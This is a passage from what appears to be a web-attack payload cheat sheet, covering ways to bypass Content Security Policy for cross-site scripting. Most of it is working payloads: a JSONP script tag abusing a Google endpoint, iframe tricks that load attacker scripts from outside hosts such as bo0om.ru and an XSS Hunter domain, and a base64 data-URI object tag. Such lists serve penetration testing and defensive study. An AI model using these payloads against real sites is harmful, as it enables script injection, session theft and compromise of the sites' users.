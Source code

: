 ## CSP Bypass

Check the CSP on [https://csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com) and the post : [How to use Google’s CSP Evaluator to bypass CSP](https://websecblog.com/vulns/google-csp-evaluator/)

### Bypass CSP using JSONP from Google (Trick by [@apfeifer27](https://twitter.com/apfeifer27))

//google.com/complete/search?client=chrome&jsonp=alert(1);

```js
<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>"
```

More JSONP endpoints available in [/Intruders/jsonp_endpoint.txt](Intruders/jsonp_endpoint.txt)

### Bypass CSP by [lab.wallarm.com](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa)

Works for CSP like `Content-Security-Policy: default-src 'self' 'unsafe-inline';`, [POC here](http://hsts.pro/csp.php?xss=f=document.createElement%28"iframe"%29;f.id="pwn";f.src="/robots.txt";f.onload=%28%29=>%7Bx=document.createElement%28%27script%27%29;x.src=%27//bo0om.ru/csp.js%27;pwn.contentWindow.document.body.appendChild%28x%29%7D;document.body.appendChild%28f%29;)

```js
script=document.createElement('script');
script.src='//bo0om.ru/csp.js';
window.frames[0].document.head.appendChild(script);
```

### Bypass CSP by [Rhynorater](https://gist.github.com/Rhynorater/311cf3981fda8303d65c27316e69209f)

```js
// CSP Bypass with Inline and Eval
d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://[YOUR_XSSHUNTER_USERNAME].xss.ht";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)
```

### Bypass CSP by [@akita_zen](https://twitter.com/akita_zen)

Works for CSP like `script-src self`

```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

### Bypass CSP by [@404death](https://twitter.com/404death/status/1191222237782659072)

Works for CSP like `script-src 'self' data:`
